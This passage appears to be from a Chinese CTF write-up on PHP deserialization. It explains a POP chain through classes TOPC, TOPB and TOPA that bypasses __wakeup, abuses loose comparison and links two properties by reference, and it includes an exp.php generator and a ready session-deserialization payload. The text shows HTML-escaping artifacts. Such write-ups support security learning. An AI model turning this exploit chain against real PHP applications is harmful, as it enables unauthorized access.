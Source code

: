 先调用TOPC类，其中`__wakeup()`我们可以进行绕过，触发`__desturct()`后，会执行`echo $this-&gt;attr`,我们将**attr**设为TOPB类，则会调用TOPB类的`__toString()`,而此方法中明显调用了TOPA类的属性，我们只需将**attr**设置为对象TOPA的序列化值,接着就是一个判段:<br>`$this-&gt;obj-&gt;token === $this-&gt;obj-&gt;ticket`,这里我们只需要利用PHP的深浅拷贝，使用引用符`&amp;`即:`$this-&gt;ticket = &amp;$this-&gt;token;`这样整个POP链就出来了。

exp.php

```
&lt;?php
class TOPA`{`
    public $token;
    public $ticket;
    public $username;
    public $password;
    public function __construct()
    `{`
      $this-&gt;username = 0;
      //PHP弱类型比较   var_cump(0 =='aaaaaaaaa') bool(true)
      $this-&gt;password = 0;
      $this-&gt;token = &amp;$this-&gt;ticket;
      //引用同一片空间，两个属性值永远相等
    `}`
        `}`
class TOPB`{`
    public $obj;
    public $attr;
    function __construct()`{`
        $this-&gt;attr = serialize(new TOPA());
    `}`
  `}`


class TOPC`{`
    public $obj;
    public $attr;
    public function __construct()
    `{`
      $this-&gt;attr = new TOPB();
    `}`
`}`

$exp = new TOPC();
echo urlencode(serialize($exp));
//注意要绕过__wakeup()，还需要将TOPC的属性个数增加
```

**payload**

`|O:4:"TOPC":3:`{`s:3:"obj";N;s:4:"attr";O:4:"TOPB":2:`{`s:3:"obj";N;s:4:"attr";s:84:"O:4:"TOPA":4:`{`s:5:"token";N;s:6:"ticket";R:2;s:8:"username";i:0;s:8:"password";i:0;`}`";`}``}``<br>
而我们要利用session反序列化传入，应该在payload前加`|`，从而是后面成为值，进行反序列化。



## SoapClient+crlf进行SSRF
